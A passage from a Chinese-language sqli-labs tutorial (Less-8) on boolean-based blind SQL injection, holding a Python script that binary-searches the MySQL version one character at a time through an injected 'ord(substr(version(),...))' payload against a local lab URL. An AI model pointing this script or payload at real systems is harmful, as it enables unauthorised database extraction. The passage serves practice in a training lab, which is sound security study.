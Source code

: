 如果返回的是` You are in ......`，则代表着正确。



> [!TIP]
>
> 如果出现了不懂得地方可以多往下看看，说不定会有解释。



因为猜测需要大量的时间来猜测，所以使用python来进行辅助爆破。

参考代码 : 用于爆破MySQL版本的

```python
import requests
import re
import string

url = "http://127.0.0.1/sqli-labs/Less-8"
chars = '0123456789.'
result = ''

for i in range(1,10):
    print('*'*10,i,'*'*10)
    max = 58
    min = 45
    while max != min:
        mid = (max+min)//2

        url = "http://127.0.0.1/sqli-labs/Less-8/?id=1' and ord(substr(version(),{},1))>{} %23"
        urlformat = url.format(i,mid)
        print('[*] url:',urlformat)

        res = requests.get(urlformat).text

        if max == (min+1):
            break
        # min = 1,max= 7,mid = 4, ans = 3
        # if i < mid:  i属于[min,mid]
        # elif i > mid: i属于[mid,max]
        if re.search("You are in",res):  
            min = mid
        else:
            max = mid
    result += chr(max)  #进行转码
    print(result)
```



> [!TIP]
>
> 如果出现了全部为！的问题，非常大的概率是因为里面的SQL语句出现了问题。

开始进行编写爆破数据库名
